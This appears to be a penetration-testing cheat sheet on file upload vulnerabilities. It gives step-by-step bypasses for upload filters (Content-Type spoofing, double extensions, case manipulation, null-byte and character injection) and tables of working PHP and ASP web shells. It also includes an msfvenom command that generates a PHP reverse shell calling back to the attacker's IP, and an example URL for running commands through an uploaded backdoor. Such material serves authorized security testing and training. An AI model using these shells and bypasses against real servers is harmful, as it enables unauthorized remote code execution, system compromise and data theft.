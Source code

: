# Uplaod Vulnerabilities

## Prerequisite:

### Find an upload page using directory bruteforce (gobuster), or you may find it on an admin dashboard of a CMS application.

## Overwriting existing files:

### Simply put, rename your payload to the same name of the file you want to overwrite then upload.

## Content-Type Bypass

Upon launching your file, open BurpSuite and change the Content-Type header to something the server accepts.

For example, when uploading a .php shell and the server accepts .png files, you can change the header from:

    application/x-php
    
to

    image/png

Then simply forward the request for the file to be uploaded.


## Double Extension

If the server accepts for example only .png files, but does not validate the content properly, simply add a second valid extension in front of your reverse shell file.

For example, from

    shell.php

to

    shell.php.png

Upload the file to get your shell.

## Image size validation bypass

If the file you want to upload exceeds the file size e.g. 1kb, it won't be accepted by the server.

Hence, we can use a way smaller file like the simple-backdoor.php

    cp /usr/share/webshells/php/simple-backdoor.php /root/Desktop/

After uploading, access you shell to example URL where file uploads migth be located:

    http://domain.local/uploads/simple-backdoor.php?cmd=id

## Blacklisted Extenstion file upload

Some applications might blacklist extensions like .php for example.

To bypass this you can just rename the extension by manipulating the cases.

For example:

    shell.PHP
    shell.pHp
    shell.phP

Upload the file to get your shell if bypassed successfully.

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |
